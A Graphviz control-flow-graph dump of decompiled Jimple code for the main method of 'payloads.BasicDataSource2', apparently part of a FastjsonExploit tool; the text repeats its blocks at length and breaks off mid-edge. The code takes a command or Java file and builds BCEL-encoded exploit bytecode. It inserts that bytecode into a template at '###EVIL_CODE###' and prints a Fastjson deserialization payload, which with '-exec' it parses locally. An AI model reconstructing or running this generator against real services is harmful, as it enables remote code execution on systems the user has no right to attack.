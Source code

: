 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 3 36 ]
r20 := @this: payloads.BasicDataSource2;
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 2 goto $r1 = r0[1];
"
    "Block 1:
[preds: 0 ] [succs: 2 3 36 ]
$i2 = lengthof r0;
if $i2 == 3 goto $r1 = r0[1];
"
    "Block 2:
[preds: 1 ] [succs: ]
$r18 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar BasicDataSource2 \\\"[cmd:xxx|code:xxx.java]\\\"\");
return;
"
    "Block 3:
[preds: 0 1 ] [succs: 4 36 ]
$r1 = r0[1];
"
    "Block 4:
[preds: 3 ] [succs: 5 36 ]
r21 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
"
    "Block 5:
[preds: 4 ] [succs: 6 36 ]
$r2 = new util.JarFileReader;
"
    "Block 6:
[preds: 5 ] [succs: 7 36 ]
specialinvoke $r2.<util.JarFileReader: void <init>()>();
"
    "Block 7:
[preds: 6 ] [succs: 8 36 ]
r3 = $r2;
"
    "Block 8:
[preds: 7 ] [succs: 9 36 ]
r22 = virtualinvoke r3.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"BasicDataSource2.tpl\");
"
    "Block 9:
[preds: 8 ] [succs: 10 36 ]
r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r21);
"
    "Block 10:
[preds: 9 ] [succs: 11 36 ]
r23 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1);
"
    "Block 11:
[preds: 10 ] [succs: 12 36 ]
$r5 = new java.lang.StringBuilder;
"
    "Block 12:
[preds: 11 ] [succs: 13 36 ]
specialinvoke $r5.<java.lang.StringBuilder: void <init>()>();
"
    "Block 13:
[preds: 12 ] [succs: 14 36 ]
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\");
"
    "Block 14:
[preds: 13 ] [succs: 15 36 ]
$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r23);
"
    "Block 15:
[preds: 14 ] [succs: 16 36 ]
r24 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>();
"
    "Block 16:
[preds: 15 ] [succs: 17 36 ]
r25 = virtualinvoke r22.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###EVIL_CODE###\", r24);
"
    "Block 17:
[preds: 16 ] [succs: 18 36 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
"
    "Block 18:
[preds: 17 ] [succs: 19 36 ]
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\");
"
    "Block 19:
[preds: 18 ] [succs: 20 36 ]
$r10 = <java.lang.System: java.io.PrintStream out>;
"
    "Block 20:
[preds: 19 ] [succs: 21 36 ]
$r9 = new java.lang.StringBuilder;
"
    "Block 21:
[preds: 20 ] [succs: 22 36 ]
specialinvoke $r9.<java.lang.StringBuilder: void <init>()>();
"
    "Block 22:
[preds: 21 ] [succs: 23 36 ]
$r11 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\");
"
    "Block 23:
[preds: 22 ] [succs: 24 36 ]
$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r25);
"
    "Block 24:
[preds: 23 ] [succs: 25 36 ]
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\");
"
    "Block 25:
[preds: 24 ] [succs: 26 36 ]
$r14 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.String toString()>();
"
    "Block 26:
[preds: 25 ] [succs: 27 36 ]
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>($r14);
"
    "Block 27:
[preds: 26 ] [succs: 28 36 ]
$i1 = lengthof r0;
"
    "Block 28:
[preds: 27 ] [succs: 29 35 36 ]
if $i1 != 3 goto (branch);
"
    "Block 29:
[preds: 28 ] [succs: 30 36 ]
$r15 = r0[2];
"
    "Block 30:
[preds: 29 ] [succs: 31 36 ]
$z0 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
"
    "Block 31:
[preds: 30 ] [succs: 32 35 36 ]
if $z0 == 0 goto (branch);
"
    "Block 32:
[preds: 31 ] [succs: 33 36 ]
$r16 = <java.lang.System: java.io.PrintStream out>;
"
    "Block 33:
[preds: 32 ] [succs: 34 36 ]
virtualinvoke $r16.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
"
    "Block 34:
[preds: 33 ] [succs: 35 36 ]
staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r25);
"
    "Block 35:
[preds: 28 31 34 ] [succs: 37 ]
goto [?= return];
"
    "Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
"
    "Block 37:
[preds: 35 36 ] [succs: ]
return;
"
    "Block 0:
[preds: ] [succs: 1 3 36 ]
r20 := @this: payloads.BasicDataSource2;
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 2 goto $r1 = r0[1];
"->"Block 1:
[preds: 0 ] [succs: 2 3 36 ]
$i2 = lengthof r0;
if $i2 == 3 goto $r1 = r0[1];
";
    "Block 0:
[preds: ] [succs: 1 3 36 ]
r20 := @this: payloads.BasicDataSource2;
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 2 goto $r1 = r0[1];
"->"Block 3:
[preds: 0 1 ] [succs: 4 36 ]
$r1 = r0[1];
";
    "Block 0:
[preds: ] [succs: 1 3 36 ]
r20 := @this: payloads.BasicDataSource2;
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 2 goto $r1 = r0[1];
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 1:
[preds: 0 ] [succs: 2 3 36 ]
$i2 = lengthof r0;
if $i2 == 3 goto $r1 = r0[1];
"->"Block 2:
[preds: 1 ] [succs: ]
$r18 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar BasicDataSource2 \\\"[cmd:xxx|code:xxx.java]\\\"\");
return;
";
    "Block 1:
[preds: 0 ] [succs: 2 3 36 ]
$i2 = lengthof r0;
if $i2 == 3 goto $r1 = r0[1];
"->"Block 3:
[preds: 0 1 ] [succs: 4 36 ]
$r1 = r0[1];
";
    "Block 1:
[preds: 0 ] [succs: 2 3 36 ]
$i2 = lengthof r0;
if $i2 == 3 goto $r1 = r0[1];
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 3:
[preds: 0 1 ] [succs: 4 36 ]
$r1 = r0[1];
"->"Block 4:
[preds: 3 ] [succs: 5 36 ]
r21 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
";
    "Block 3:
[preds: 0 1 ] [succs: 4 36 ]
$r1 = r0[1];
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 4:
[preds: 3 ] [succs: 5 36 ]
r21 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
"->"Block 5:
[preds: 4 ] [succs: 6 36 ]
$r2 = new util.JarFileReader;
";
    "Block 4:
[preds: 3 ] [succs: 5 36 ]
r21 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 5:
[preds: 4 ] [succs: 6 36 ]
$r2 = new util.JarFileReader;
"->"Block 6:
[preds: 5 ] [succs: 7 36 ]
specialinvoke $r2.<util.JarFileReader: void <init>()>();
";
    "Block 5:
[preds: 4 ] [succs: 6 36 ]
$r2 = new util.JarFileReader;
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 6:
[preds: 5 ] [succs: 7 36 ]
specialinvoke $r2.<util.JarFileReader: void <init>()>();
"->"Block 7:
[preds: 6 ] [succs: 8 36 ]
r3 = $r2;
";
    "Block 6:
[preds: 5 ] [succs: 7 36 ]
specialinvoke $r2.<util.JarFileReader: void <init>()>();
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 7:
[preds: 6 ] [succs: 8 36 ]
r3 = $r2;
"->"Block 8:
[preds: 7 ] [succs: 9 36 ]
r22 = virtualinvoke r3.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"BasicDataSource2.tpl\");
";
    "Block 7:
[preds: 6 ] [succs: 8 36 ]
r3 = $r2;
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 8:
[preds: 7 ] [succs: 9 36 ]
r22 = virtualinvoke r3.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"BasicDataSource2.tpl\");
"->"Block 9:
[preds: 8 ] [succs: 10 36 ]
r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r21);
";
    "Block 8:
[preds: 7 ] [succs: 9 36 ]
r22 = virtualinvoke r3.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"BasicDataSource2.tpl\");
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 9:
[preds: 8 ] [succs: 10 36 ]
r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r21);
"->"Block 10:
[preds: 9 ] [succs: 11 36 ]
r23 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1);
";
    "Block 9:
[preds: 8 ] [succs: 10 36 ]
r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r21);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 10:
[preds: 9 ] [succs: 11 36 ]
r23 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1);
"->"Block 11:
[preds: 10 ] [succs: 12 36 ]
$r5 = new java.lang.StringBuilder;
";
    "Block 10:
[preds: 9 ] [succs: 11 36 ]
r23 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 11:
[preds: 10 ] [succs: 12 36 ]
$r5 = new java.lang.StringBuilder;
"->"Block 12:
[preds: 11 ] [succs: 13 36 ]
specialinvoke $r5.<java.lang.StringBuilder: void <init>()>();
";
    "Block 11:
[preds: 10 ] [succs: 12 36 ]
$r5 = new java.lang.StringBuilder;
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 12:
[preds: 11 ] [succs: 13 36 ]
specialinvoke $r5.<java.lang.StringBuilder: void <init>()>();
"->"Block 13:
[preds: 12 ] [succs: 14 36 ]
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\");
";
    "Block 12:
[preds: 11 ] [succs: 13 36 ]
specialinvoke $r5.<java.lang.StringBuilder: void <init>()>();
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 13:
[preds: 12 ] [succs: 14 36 ]
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\");
"->"Block 14:
[preds: 13 ] [succs: 15 36 ]
$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r23);
";
    "Block 13:
[preds: 12 ] [succs: 14 36 ]
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\");
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 14:
[preds: 13 ] [succs: 15 36 ]
$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r23);
"->"Block 15:
[preds: 14 ] [succs: 16 36 ]
r24 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>();
";
    "Block 14:
[preds: 13 ] [succs: 15 36 ]
$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r23);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 15:
[preds: 14 ] [succs: 16 36 ]
r24 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>();
"->"Block 16:
[preds: 15 ] [succs: 17 36 ]
r25 = virtualinvoke r22.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###EVIL_CODE###\", r24);
";
    "Block 15:
[preds: 14 ] [succs: 16 36 ]
r24 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>();
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 16:
[preds: 15 ] [succs: 17 36 ]
r25 = virtualinvoke r22.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###EVIL_CODE###\", r24);
"->"Block 17:
[preds: 16 ] [succs: 18 36 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
";
    "Block 16:
[preds: 15 ] [succs: 17 36 ]
r25 = virtualinvoke r22.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###EVIL_CODE###\", r24);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 17:
[preds: 16 ] [succs: 18 36 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
"->"Block 18:
[preds: 17 ] [succs: 19 36 ]
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\");
";
    "Block 17:
[preds: 16 ] [succs: 18 36 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 18:
[preds: 17 ] [succs: 19 36 ]
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\");
"->"Block 19:
[preds: 18 ] [succs: 20 36 ]
$r10 = <java.lang.System: java.io.PrintStream out>;
";
    "Block 18:
[preds: 17 ] [succs: 19 36 ]
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\");
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 19:
[preds: 18 ] [succs: 20 36 ]
$r10 = <java.lang.System: java.io.PrintStream out>;
"->"Block 20:
[preds: 19 ] [succs: 21 36 ]
$r9 = new java.lang.StringBuilder;
";
    "Block 19:
[preds: 18 ] [succs: 20 36 ]
$r10 = <java.lang.System: java.io.PrintStream out>;
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 20:
[preds: 19 ] [succs: 21 36 ]
$r9 = new java.lang.StringBuilder;
"->"Block 21:
[preds: 20 ] [succs: 22 36 ]
specialinvoke $r9.<java.lang.StringBuilder: void <init>()>();
";
    "Block 20:
[preds: 19 ] [succs: 21 36 ]
$r9 = new java.lang.StringBuilder;
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 21:
[preds: 20 ] [succs: 22 36 ]
